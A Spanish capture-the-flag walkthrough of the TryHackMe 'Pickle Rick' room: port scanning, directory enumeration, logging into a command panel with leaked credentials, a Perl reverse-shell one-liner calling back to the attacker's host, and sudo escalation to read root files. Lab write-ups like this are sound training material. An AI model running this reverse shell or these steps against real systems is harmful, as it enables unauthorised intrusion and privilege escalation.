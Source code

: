 ```yaml
---
description: '✍️ Autor: tryhackme, ar33zy, arebel 🔍 Dificultad: Fácil'
---
```


# Pickle Rick

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.146.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.146.1626
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.146.162
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220800.png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente hay algo relevante como un usuario.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220926.png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:&#x20;

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.146.162
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Encontramos una página de login y un robots.txt interesantes.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con el usuario y contraseña descubierta anteriormente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222026.png" alt=""><figcaption></figcaption></figure>

Es un panel de comandos por lo que listamos y vemos el contenido.

<div><figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222225.png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222253.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

Como podemos ejecutar comandos para obtener una Reverse Shell.

<pre><code><strong>nc -nlvp 4444
</strong><strong>perl -e 'use Socket;$i="10.8.146.101";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&#x26;S");open(STDOUT,">&#x26;S");open(STDERR,">&#x26;S");exec("sh -i");};'
</strong></code></pre>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222859.png" alt=""><figcaption></figcaption></figure>

Comprobamos que tienen todos los permisos por lo que podemos ejecutar como root cualquier comando.

```
sudo ls /root/
sudo cat /root/3rd.txt
```

